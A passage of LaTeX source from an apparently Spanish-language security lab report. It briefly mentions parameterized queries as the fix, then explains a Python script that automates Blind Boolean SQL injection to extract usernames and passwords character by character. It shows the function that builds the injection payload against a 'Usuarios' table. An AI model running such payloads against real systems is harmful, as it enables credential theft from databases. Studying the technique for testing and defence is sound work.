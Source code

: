 \documentclass[a4paper,12pt]{article}
\begin{document}
El uso de \texttt{\%s} en la consulta parametrizada asegura que el valor de la cookie sea tratado como un literal y evita la ejecución de código SQL malicioso.

\subsection{Automatización de inyecciones Blind Boolean}

Realizar un ataque manual basado en inyecciones \textbf{Blind Boolean} para extraer datos sensibles de la base de datos resulta extremadamente ineficiente, debido al elevado número de consultas necesarias. Para optimizar este proceso, se ha desarrollado un script automatizado en Python que permite dumpear todos los valores de un campo especificado (\texttt{username} o \texttt{password}) de la base de datos. El script emplea peticiones HTTP con inyecciones \textbf{Blind Boolean} y analiza las respuestas para extraer información carácter por carácter y fila por fila.

A continuación, se explican las partes más importantes del script:

\subsubsection{Construcción de la inyección SQL}

El script genera dinámicamente un payload que realiza la inyección SQL específica para comprobar si un carácter en una posición concreta de un campo coincide con un valor dado. Esta función es esencial para realizar el ataque carácter por carácter.

\begin{lstlisting}[language=Python]
def construir_inyeccion(campo, posicion, caracter, indice):
    """
    Construye el payload de inyección SQL para extraer un carácter específico de una fila específica.
    """
    caracter_escapado = caracter.replace("'", "''")
    payload = (
        f"d382yd8n21df4314fn817yf6834188ls023d8d' "
        f"AND (SELECT CASE WHEN (SUBSTR({campo}, {posicion}, 1) = '{caracter_escapado}') "
        f"THEN 1 ELSE 1/0 END FROM (SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
    )
    return payload
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{campo}: El nombre del campo de la base de datos (como \texttt{username} o \texttt{password}).
    \item \texttt{posicion}: La posición del carácter que se quiere comprobar.
    \item \texttt{caracter}: El carácter que se intenta validar.
    \item \texttt{indice}: El índice de la fila en la tabla que se está atacando.
\end{itemize}
\end{document}
